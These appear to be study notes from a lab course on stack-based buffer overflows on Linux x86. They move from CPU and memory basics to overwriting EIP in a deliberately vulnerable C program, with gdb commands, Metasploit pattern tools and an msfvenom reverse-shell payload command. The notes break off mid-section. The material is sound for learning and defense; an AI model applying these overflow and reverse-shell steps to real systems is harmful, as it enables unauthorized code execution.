






- [Stack-Based Buffer Overflows on Linux x86](#stack-based-buffer-overflows-on-linux-x86)
  - [Intro](#intro)
    - [Buffer Overflow Overview](#buffer-overflow-overview)
    - [Exploit Development Intro](#exploit-development-intro)
      - [0-Day Exploits](#0-day-exploits)
      - [N-Day Exploits](#n-day-exploits)
        - [Local Exploits](#local-exploits)
        - [Remote Exploits](#remote-exploits)
        - [DoS Exploits](#dos-exploits)
        - [WebApp Exploits](#webapp-exploits)
    - [CPU Architecture](#cpu-architecture)
    - [Memory](#memory)
      - [Primary Memory](#primary-memory)
      - [Secondary Memory](#secondary-memory)
    - [Control Unit](#control-unit)
    - [Central Processing Unit](#central-processing-unit)
      - [RISC](#risc)
      - [CISC](#cisc)
      - [Instruction Cycle](#instruction-cycle)
  - [Stack-Based Buffer Overflow](#stack-based-buffer-overflow)
    - [The Memory](#the-memory)
      - [Buffer](#buffer)
      - [.text](#text)
      - [.data](#data)
      - [.bss](#bss)
      - [The Heap](#the-heap)
      - [The Stack](#the-stack)
    - [Vulnerable Program](#vulnerable-program)
      - [Vulnerable C Functions](#vulnerable-c-functions)
    - [GBD Intro](#gbd-intro)
      - [AT\&T](#att)
      - [Syntax Changing](#syntax-changing)
      - [Intel](#intel)
  - [CPU-Registers](#cpu-registers)
    - [Registers](#registers)
      - [Data Registers](#data-registers)
      - [Pointer Register](#pointer-register)
      - [Index Register](#index-register)
    - [Stack Frames](#stack-frames)
      - [Prologue](#prologue)
      - [Epilogue](#epilogue)
    - [Endianness](#endianness)
  - [Exploiting](#exploiting)
    - [Taking Control of EIP](#taking-control-of-eip)
      - [Segmentation Fault](#segmentation-fault)
      - [Determine the Offset](#determine-the-offset)
        - [Create Pattern](#create-pattern)
    - [Determining the Length for the Shellcode](#determining-the-length-for-the-shellcode)
      - [Shellcode - Length](#shellcode---length)

---

# Stack-Based Buffer Overflows on Linux x86

## Intro

### Buffer Overflow Overview

Buffer overflows are caused by incorrect program code, which cannot process too large amounts of data correctly by the CPU and can, therefore, manipulate the CPU's processing. Suppose too much data is written to a reserved memory buffer or stack that is not limited. In that case, specific registers will be overwritten, which may allow code to be executed.

A buffer overflow can cause the program to crash, corrupt data, or harm data structures in the program's runtime. The last of these can overwrite the specific program's return address with arbitrary data, allowing an attacker to execute commands with the privilege of the process vulnerable to the buffer overflow by passing arbitrary machine code. This code is usually intended to give you more convenient access to the system to use it for your own purpose.

The most significant cause of buffer overflows is the use of programming languages that do not automatically monitor limits of memory buffer or stack to prevent buffer overflow.

For this reason, developers are forced to define such areas in the programming code themselves, which increases vulnerability many times over.

### Exploit Development Intro

There are two types of exploits. One is unknown, and the other is known.

#### 0-Day Exploits

A 0-day exploit is a code that exploits a newly identified vulnerability in a specific app. The vulnerability does not need to be public in the application. The danger with such exploits is that if the developers of this application are not informed about the vulnerability, they will likely persist with new updates.

#### N-Day Exploits

If the vulnerability is published and informs the developers, they will still need time to write a fix to prevent them as soon as possible. When they are published, they talk about N-day exploits, counting the days between the publication of the exploit and an attack on the unpatched systems.

Also, these exploits can be divided into four different categories:

- Local
- Remote
- DoS
- WebApp

##### Local Exploits

... can be executed when opening a file. However, the prerequisite for this is that the local software contains a security vulnerability. Often a local exploit first tries to exploit security holes in the program with which the file was imported to achieve a higher privilege level and thus load and execute malicious code / shellcode in the OS. The actual action that the exploit performs is called payload.

##### Remote Exploits

... very often exploit the buffer overflow vulnerability to get the payload running on the system. This type of exploits differs from local exploits because they can be executed over the network to perform the desired operation.

##### DoS Exploits

... are codes that prevent other systems from functioning, i.e., cause a crash of individual software or the entire system.

##### WebApp Exploits

... use a vulnerability in such software. Such vulnerabilites can, for example, allow a command injection on the application itself or the underlying database.

### CPU Architecture

Von-Neumann consists of:

- Memory
- Control Unit
- Arithmetical Logical Unit
- Input/Output Unit

In the von-Neumann architecture, the most important units, the Arithmetic Logical Unit (_ALU_) and Control Unit (_CU_), are combined in the actual Central Processing Unit (_CPU_). The CPU is responsible for executing the instructions and for flow control. The instructions are executed one after the other, step by step. The commands and data are fetched from memory by the CU. The connection between processor, memory, and input/output is called a bus system, which is not mentioned in the original von-Neumann architecture but plays an essential role in practice. In the von-Neumann architecture, all instructions and data are transferred via the bus system.

### Memory

... can be divided into two different categories:

- Primary Memory
- Secondary Memory

#### Primary Memory

... is the cache and Random Access Memory (_RAM_). If you think about it logically, memory is nothing more than a place to store information. You can think of it as leaving something at one of your friends to pick it up again later. But for this, it is necessary to know the friend's address to pick up what you have left behind. It is the same as RAM. RAM describes a memory type whose memory allocations can be accessed directly and randomly by their memory addresses.

The cache is integrated into the processor and serves as a buffer, which in the best case, ensures that the processor is always fed with data and program code. Before the program code and data enter the processor for processing, the RAM serves as data storage. The size of the RAM determines the amount of data that can be stored for the processor. However, when the primary memory loses power, all stored contents are lost.

#### Secondary Memory

... is the external data storage, such as HDD/SSD, Flash Drives and CD/DVD-ROMs of a computer, which is not directly accessed by the CPU, but via the I/O interfaces. In other words, it is a mass storage device. It is used to permanently store data that does not need to be processed at the moment. Compared to primary memory, it has a higher storage capicity, can store data permanently even without a power supply, and works much slower.

### Control Unit

... is responsible for the correct interworking of the processor's individual parts. An internal bus connection is used for the tasks of the CU. The tasks of the CU can be summarised as follows:

- reading data from RAM
- saving data in RAM
- provide, decode and execute an instruction
- processing the inputs from peripheral devices
- processing the outputs to peripheral devices
- interrupt control
- monitoring of the entire system

The CU contains the Instruction Register (_IR_), which contains all instructions that the processor decodes and executes accordingly. The instruction decoder translates the instructions and passes them to the execution unit, which then executes the instruction. The execution unit transfers the data to the ALU for calculation and receives the result back from there. The data used during execution is temporarily stored in registers.

### Central Processing Unit

... is the functional unit in a computer that provides the actual processing power. It is responsible for processing information and controlling the processing operations. To do this, the CPU fetches commands from memory one after the other and initiates data processing.

The processor is also often referred to as a Microprocessor when placed in a single electronic unit, as in PCs.

Each CPU has an architecture on which it was built. The best-known CPU architectures are:

- x86/i386
- x86-64/amd64
- ARM

Each of these CPU architectures is built in a specific way, called Instruction Set Architecture (_ISA_), which the CPU uses to execute its processes. ISA, therefore, describes the behavior of a CPU concerning the instruction set used. The instruction sets are defined so that they are independent of a specific implementation. Above all, ISA gives you the possibility to understand the unified behavior of machine code in Assembly language concerning registers, data, types, etc.

There are different types of ISA:

- CISC
- RISC
- VLIW - Very Long Instruction Word
- EPIC - Explicitly Parallel Instruction Computing

#### RISC

... is a design if microprocessors architecture that aimed to simplify the complexity of the instruction set for Assembly programming to one clock cycle. This leads to higher clock frequencies of the CPU but enables a faster execution because smaller instruction sets are used. By an instruction set, the set of machine instructions that a given processor can execute are meant. You find RISC in most smartphones today. Nevertheless, pretty much all CPUs have a portion of RISC in them. RISC architectures have a fixed length of instructions defined as 32-bit or 64-bit.

#### CISC

... is a processor architecture with an extensive and complex instruction set. Due to the historical development of computers and their memory, recurring sequences of instructions were combined into complicated instructions in second-generation computers. The addressing in CISC architectures does not require 32-bit or 64-bit in contrast to RISC but can be done with an 8-bit mode.

#### Instruction Cycle

The instruction set describes the totality of the machine instructions of a processor. The scope of the instruction set varies considerably depending on the processor type. Each CPU may have different instruction cycles and instruction sets, but they are all similar in structure, which can be summarised as follows:

| Instruction | Description |
| ----------- | ----------- |
| 1. FETCH | the next machine instruction address is read from the Instruction Address Register; it is then loaded from the cache or RAM into the Instruction Register |
| 2. DECODE | the instruction decoder converts the instructions and starts the necessary circuits to execute the instruction |
| 3. FETCH OPERANDS | if further data have to be loaded for execution, these are loaded from the cache or RAM into working registers |
| 4. EXECUTE | the instruction is executed; this can be, for example, operations in the ALU, a jump in the program, the writing back of results into the working registers, or the control of peripheral devices; depending on the result of some instructions, the status register is set, which can be evaluated by subsequent instructions |
| 5. UPDATE INSTRUCTION POINTER | if no jump has been executed in the EXECUTE phase, the IAR is now increased by the length of the instruction so that it points to the next machine instruction |

## Stack-Based Buffer Overflow

Memory exceptions are the operating system's reaction to an error in existing software ir during the execution of these. This is responsible for most of the security vulnerabilities in program flows in the last decade. Programming errors often occur, leading to buffer overflows due to inattention when programming with low abstract languages such as C or C++.

These languages are compiled almost directly to machine code and, in contrast to highly abstracted languages such as Python or Java, run through little to no control structure OS. Buffer overflows are errors that allow data that is too large to fit into a buffer of the OS's memory that is not large enough, thereby overflowing this buffer. As a result of this mishandling, the memory of other functions of the executed program is overwritten, potentially creating a security vulnerability.

Such a program, is a general executable file stored on a data storage medium. There are several different file formats for such executable binary files. For example, the Portable Executable Foramt (_PE_) is used on Microsoft platforms.

Another format for executable files is the Executable and Linking Format (_ELF_), supported by almost all modern UNIX variants. If the linker loads such an executable binary file and the program will be executed, the corresponding program code will be loaded into the main memory and then executed by the CPU.

Programs store data and instructions in memory during initialization and execution. These are data that are displayed in the executed software or entered by the user. Especially for expected user input, a buffer must created beforehand by saving the input.

The instructions are used to model the program flow. Among other things, return addresses are stored in the memory, which refers to other memory addresses and thus define the program's control flow. If such a return address is deliberately overwritten by using a buffer overflow, an attacker can manipulate the program flow by having the return address refer to another function or subroutine. Also, it would be possible to jump back to a code previously introduced by the user input.

You need to be familiar with how:

 - the memory is divided and used
 - the debugger displays and names the individual instructions
 - the debugger can be used to detect such vulnerabilites
 - you can manipulate the memory

### The Memory

When the program is called, the sections are mapped to the segments in the process, and the segments are loaded into memory as described by the ELF file.

#### Buffer



#### .text

The ```.text``` section contains the actual assembler instructions of the program. This area can be read-only to prevent the process from accidentally modifying its instructions. Any attempt to write to this area will inevitably result in a segmentation fault.

#### .data

The ```.data``` section contains global and static variables that are explicitly innitialized by the program.

#### .bss

Several compilers and linkers use the ```.bss`` section as part of the data segment, which contains statically allocated variables represented exclusively by 0 bits.

#### The Heap

Heap memory is allocated from this area. This area starts at the end of the ```.bss``` segment and grows to the higher memory addresses.

#### The Stack

Stack memory is a last-in-first-out data structure in which the return addresses, parameters, and, depending on the compiler options, frame pointers are stored. C/C++ local variables are stored here, and you can even copy code to the stack. The stack is a defined area in RAM. The linker reserves this area and usually places the stack in RAM's lower area above the global and static variables. The contents are accessed via the stack pointer, set to the upper end of the stack during initialization. During execution, the allocated part of the stack grows down to the lower memory addresses.

Modern memory protections (_DEP_/_ASLR_) would prevent the damage caused by buffer overflows. DEP, marked regions of memory "Read-Only". The read-only memory regions is where some user-input is stored, so the idea behind DEP was to prevent users from uploading shellcode to memory and then setting the instruction pointer to the shellcode. Hackers started utilizing ROP to get around this, as it allowed them to upload the shellcode to an executable space and use existing calls to execute it. With ROP, the attacker needs to know the memory addresses where things are stored, so the defense against it was to implement ASLR which randomizes where everything is stored making ROP more difficult.

Users can get around ASLR by leaking memory addresses, but this makes exploits less reliable and sometimes impossible.

### Vulnerable Program

Example with vulnerable function ```strcpy()```:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bowfunc(char *string) {

	char buffer[1024];
	strcpy(buffer, string);
	return 1;
}

int main(int argc, char *argv[]) {

	bowfunc(argv[1]);
	printf("Done.\n");
	return 1;
}
```

Modern OS have built-in protections against such vulnerabilities, like Address Space Layout Randomization (_ASLR_). To make the example work you need to disable this memory protection feature:

```bash
student@nix-bow:~$ sudo su
root@nix-bow:/home/student# echo 0 > /proc/sys/kernel/randomize_va_space
root@nix-bow:/home/student# cat /proc/sys/kernel/randomize_va_space

0
```

Next, you can compile it:

```bash
student@nix-bow:~$ sudo apt install gcc-multilib
student@nix-bow:~$ gcc bow.c -o bow32 -fno-stack-protector -z execstack -m32
student@nix-bow:~$ file bow32 | tr "," "\n"

bow: ELF 32-bit LSB shared object
 Intel 80386
 version 1 (SYSV)
 dynamically linked
 interpreter /lib/ld-linux.so.2
 for GNU/Linux 3.2.0
 BuildID[sha1]=93dda6b77131deecaadf9d207fdd2e70f47e1071
 not stripped
 ```

 #### Vulnerable C Functions

 There are several vulnerable functions in the C programming language that do not independently protect the memory. These are some:

 - strcpy
 - gets
 - sprintf
 - scanf
 - strcat

### GBD Intro

GBD, or the GNU Debugger, is the standard debugger of Linux systems developed by the GNU project. It has been ported to many systems and supports the programming languages C, C++, Objective-C, FORTRAN, Java, and many more.

GBD provides you with the usual traceability features like breakpoints or stack trace output and allows you to intervene in the execution of programs. It also allows you to manipulate the variables of the application or to call functions independently of the normal execution of the program.

#### AT&T

```bash
student@nix-bow:~$ gdb -q bow32

Reading symbols from bow...(no debugging symbols found)...done.
(gdb) disassemble main

Dump of assembler code for function main:
   0x00000582 <+0>: 	lea    0x4(%esp),%ecx
   0x00000586 <+4>: 	and    $0xfffffff0,%esp
   0x00000589 <+7>: 	pushl  -0x4(%ecx)
   0x0000058c <+10>:	push   %ebp
   0x0000058d <+11>:	mov    %esp,%ebp
   0x0000058f <+13>:	push   %ebx
   0x00000590 <+14>:	push   %ecx
   0x00000591 <+15>:	call   0x450 <__x86.get_pc_thunk.bx>
   0x00000596 <+20>:	add    $0x1a3e,%ebx
   0x0000059c <+26>:	mov    %ecx,%eax
   0x0000059e <+28>:	mov    0x4(%eax),%eax
   0x000005a1 <+31>:	add    $0x4,%eax
   0x000005a4 <+34>:	mov    (%eax),%eax
   0x000005a6 <+36>:	sub    $0xc,%esp
   0x000005a9 <+39>:	push   %eax
   0x000005aa <+40>:	call   0x54d <bowfunc>
   0x000005af <+45>:	add    $0x10,%esp
   0x000005b2 <+48>:	sub    $0xc,%esp
   0x000005b5 <+51>:	lea    -0x1974(%ebx),%eax
   0x000005bb <+57>:	push   %eax
   0x000005bc <+58>:	call   0x3e0 <puts@plt>
   0x000005c1 <+63>:	add    $0x10,%esp
   0x000005c4 <+66>:	mov    $0x1,%eax
   0x000005c9 <+71>:	lea    -0x8(%ebp),%esp
   0x000005cc <+74>:	pop    %ecx
   0x000005cd <+75>:	pop    %ebx
   0x000005ce <+76>:	pop    %ebp
   0x000005cf <+77>:	lea    -0x4(%ecx),%esp
   0x000005d2 <+80>:	ret    
End of assembler dump.
```

AT&T syntax can be recognized by the ```%``` and ```$```.

#### Syntax Changing

```bash
(gdb) set disassembly-flavor intel
(gdb) disassemble main

Dump of assembler code for function main:
   0x00000582 <+0>:	    lea    ecx,[esp+0x4]
   0x00000586 <+4>:	    and    esp,0xfffffff0
   0x00000589 <+7>:	    push   DWORD PTR [ecx-0x4]
   0x0000058c <+10>:	push   ebp
   0x0000058d <+11>:	mov    ebp,esp
   0x0000058f <+13>:	push   ebx
   0x00000590 <+14>:	push   ecx
   0x00000591 <+15>:	call   0x450 <__x86.get_pc_thunk.bx>
   0x00000596 <+20>:	add    ebx,0x1a3e
   0x0000059c <+26>:	mov    eax,ecx
   0x0000059e <+28>:	mov    eax,DWORD PTR [eax+0x4]
<SNIP>
```

You can also set Intel as the default syntax:

```bash
student@nix-bow:~$ echo 'set disassembly-flavor intel' > ~/.gdbinit
```

#### Intel

```bash
student@nix-bow:~$ gdb ./bow32 -q

Reading symbols from bow...(no debugging symbols found)...done.
(gdb) disassemble main

Dump of assembler code for function main:
   0x00000582 <+0>: 	lea    ecx,[esp+0x4]
   0x00000586 <+4>: 	and    esp,0xfffffff0
   0x00000589 <+7>: 	push   DWORD PTR [ecx-0x4]
   0x0000058c <+10>:	push   ebp
   0x0000058d <+11>:	mov    ebp,esp
   0x0000058f <+13>:	push   ebx
   0x00000590 <+14>:	push   ecx
   0x00000591 <+15>:	call   0x450 <__x86.get_pc_thunk.bx>
   0x00000596 <+20>:	add    ebx,0x1a3e
   0x0000059c <+26>:	mov    eax,ecx
   0x0000059e <+28>:	mov    eax,DWORD PTR [eax+0x4]
   0x000005a1 <+31>:	add    eax,0x4
   0x000005a4 <+34>:	mov    eax,DWORD PTR [eax]
   0x000005a6 <+36>:	sub    esp,0xc
   0x000005a9 <+39>:	push   eax
   0x000005aa <+40>:	call   0x54d <bowfunc>
   0x000005af <+45>:	add    esp,0x10
   0x000005b2 <+48>:	sub    esp,0xc
   0x000005b5 <+51>:	lea    eax,[ebx-0x1974]
   0x000005bb <+57>:	push   eax
   0x000005bc <+58>:	call   0x3e0 <puts@plt>
   0x000005c1 <+63>:	add    esp,0x10
   0x000005c4 <+66>:	mov    eax,0x1
   0x000005c9 <+71>:	lea    esp,[ebp-0x8]
   0x000005cc <+74>:	pop    ecx
   0x000005cd <+75>:	pop    ebx
   0x000005ce <+76>:	pop    ebp
   0x000005cf <+77>:	lea    esp,[ecx-0x4]
   0x000005d2 <+80>:	ret    
End of assembler dump.
```

## CPU-Registers

Registers are the essential components of a CPU. Almost all registers offer a small amount of storage space where data can be temporarily stored. However, some of them have a particular function.

These registers will be divided into General registers, Control registers, and Segment registers. The most critical registers you need are the General registers. In these, there are further subdivisions into Data registers, Pointer registers, and Index registers.

### Registers

#### Data Registers

| 32-bit Register | 64-bit Register | Description |
| --------------- | --------------- | ----------- |
| ```EAX``` | ```RAX``` | **accumulator** is used in input/output and for arithmetic operations |
| ```EBX``` | ```RBX``` | **base** is used in indexed addressing |
| ```ECX``` | ```RCX``` | **counter** is used to rotate instructions and count loops |
| ```EDX``` | ```RDX``` | **data** is used for I/O and in arithmetic operations for mulitply and divide operations involving large values |

#### Pointer Register

| 32-bit Register | 64-bit Register | Description |
| --------------- | --------------- | ----------- |
| ```EIP``` | ```RIP``` | **instruction pointer** stores the offset address of the next instruction to be executed |
| ```ESP``` | ```RSP``` | **stack pointer** points to the top of the stack |
| ```EBP``` | ```RBP``` | **base pointer** is also known as Stack Base Pointer or Frame Pointer that points to the base of the stack |

#### Index Register

| 32-bit Register | 64-bit Register | Description |
| --------------- | --------------- | ----------- |
| ```ESI``` | ```RSI``` | **source index** is used as a pointer from a source for string operations |
| ```EDI``` | ```RDI``` | **destination** is used as a pointer to a destination for string operations |

### Stack Frames

Since the stack starts with a high address and grows down to low memory addresses as values are added, the Base Pointer points to the beginning of the stack in contrast to the Stack Pointer, which points to the top of the stack.

As the stack grows, it is logically divided into regions called Stack Frames, which allocate the required memory in the stack for the corresponding function. A stack frame defines a frame of data with the beginning (```EBP```) and the end (```ESP```) that is pushed onto the stack when a function is called.

Since the stack memory is built on a last-in-first-out data structure, the first step is to store the previous ```EBP``` position on the stack, which can be restored after the function completes.

```bash
(gdb) disas bowfunc 

Dump of assembler code for function bowfunc:
   0x0000054d <+0>:	    push   ebp       # <---- 1. Stores previous EBP
   0x0000054e <+1>:	    mov    ebp,esp
   0x00000550 <+3>:	    push   ebx
   0x00000551 <+4>:	    sub    esp,0x404
   <...SNIP...>
   0x00000580 <+51>:	leave  
   0x00000581 <+52>:	ret   
```

The ```EBP``` in the stack frame is set first when a function is called and contains the ```EBP``` of the previous stack frame. Next, the value of the ```ESP``` is copied to the ```EBP```, creating a new stack frame.

```bash
 CPU Registers

(gdb) disas bowfunc 

Dump of assembler code for function bowfunc:
   0x0000054d <+0>:	    push   ebp       # <---- 1. Stores previous EBP
   0x0000054e <+1>:	    mov    ebp,esp   # <---- 2. Creates new Stack Frame
   0x00000550 <+3>:	    push   ebx
   0x00000551 <+4>:	    sub    esp,0x404 
   <...SNIP...>
   0x00000580 <+51>:	leave  
   0x00000581 <+52>:	ret    
```

Then some space is created in the stack, moving the ```ESP``` to the top for the operations and variables needed and processed.

#### Prologue

```bash
(gdb) disas bowfunc 

Dump of assembler code for function bowfunc:
   0x0000054d <+0>:	    push   ebp       # <---- 1. Stores previous EBP
   0x0000054e <+1>:	    mov    ebp,esp   # <---- 2. Creates new Stack Frame
   0x00000550 <+3>:	    push   ebx
   0x00000551 <+4>:	    sub    esp,0x404 # <---- 3. Moves ESP to the top
   <...SNIP...>
   0x00000580 <+51>:	leave  
   0x00000581 <+52>:	ret 
```

These three instructions represent the so-called Prologue.

For getting ot of the stack frame, the opposite is done, the Epilogue. During the epilogue, the ```ESP``` is replaced by the current ```EBP```, and its value is reset to the value it had before in the prologue. The epilogue us relatively short, and apart from other possibilities to perform it, in your example, it is performed with two instructions:

#### Epilogue

```bash
(gdb) disas bowfunc 

Dump of assembler code for function bowfunc:
   0x0000054d <+0>:	    push   ebp       
   0x0000054e <+1>:	    mov    ebp,esp   
   0x00000550 <+3>:	    push   ebx
   0x00000551 <+4>:	    sub    esp,0x404 
   <...SNIP...>
   0x00000580 <+51>:	leave  # <----------------------
   0x00000581 <+52>:	ret    # <--- Leave stack frame
```

### Endianness

During load and save operations in registers and memories, the bytes are read in a different order. This byte order is called endianness. Endianness is distinguished between the little-endian format and the big-endian format.

Big-endian and little-endian are about the order of valence. In bin-endian, the digits with the highest valence are initially. In little-endian, the digits with the lowest valances are at the beginning. Mainframe processors use the big-endian format, some RISC architectures, minicomputers, and in TCP/IP networks, the byte order is also in big-endian format.

Take a look at the following values:

- Address: ```0xffff0000```
- Word: ```\xAA\xBB\xCC\xDD```

| Memory Address | 0xffff0000 | 0xffff0001 | 0xffff0002 | 0xffff0003 |
| -------------- | ---------- | ---------- | ---------- | ---------- |
| Big-Endian | AA | BB | CC | DD |
| Little-Endian | DD | CC | BB | AA |

This is very important for you to enter your code in the right order.

## Exploiting

### Taking Control of EIP

One of the most important aspects of a stack-based buffer overflow is to get the instruction pointer under control, so you can tell it to which address it should jump. This will make the ```EIP``` point to the address where your shellcode starts and causes the CPU to execute it.

You can execute commands in GDB using Python, which serves you directly as input.

#### Segmentation Fault

```bash
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

If you run 1200 ```U```s (_0x55_) as input, you can see from the register information that you have overwritten the ```EIP```. As far as you know, the ```EIP``` points to the next instruction to be executed.

```bash
(gdb) info registers 

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP overwritten
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP overwritten
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

Visualized:



This means you have write access to the ```EIP```. This, in turn, allows specifying to which memory address the ```EIP``` should jump. However, to manipulate the register, you need an exact number of ```U```s up to the ```EIP``` so that the following 4 bytes can be overwritten with your desired memory address.

#### Determine the Offset

The offset is used to determine how many bytes are needed to overwrite the buffer and how much space you have around your shellcode.

Shellcode is a program code that contains instructions for an operation that you want the CPU to perform.

##### Create Pattern

```bash
d41y@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
d41y@htb[/htb]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```

Now you replace the 1200 ```U```s with the generated patterns and focus your attention again on the ```EIP```.

```bash
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```

... leads to:

```bash
(gdb) info registers eip

eip            0x69423569	0x69423569
```

You see that the ```EIP``` displays a different memory address, and you can use another MSF tool called ```pattern_offset``` to calculate the exact number of chars needed to advance to the ```EIP```.

```bash
d41y@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

Visualized:



If you now use precisely this number of bytes for your ```U```s, you should land exactly on the ```EIP```. To overwrite it and check if you have reached it as planned, you can add 4 more bytes with ```\x66``` and execute it to ensure you control the ```EIP```.

```bash
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```



Now you see that you have overwritten the ```EIP``` with your ```\x66``` chars. Next, you have to find out how much space you have for your shellcode, which then executes the commands you intend. As you control the ```EIP``` now, you will later overwrite it with the address pointing to your shellcode's beginning.

### Determining the Length for the Shellcode

Now you should find out how much space you have for your shellcode to perform the action you want.

#### Shellcode - Length

```bash
d41y@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

You now know that your payload will be about 68 bytes. As a precaution, you should try to take a larger range if the shellcode increases due to later specifications.

Often it can be useful to insert some no operation instructions (_NOPs_) before your shellcode begins so that it can be executed cleanly. You need:

- a total of 1040 bytes to get to the ```EIP```
- an additional 100 bytes of NOPs
- 150 bytes for your shellcode

```bash
   Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4
```



Now you can try to find out how much space you have available to insert your shellcode.

```bash
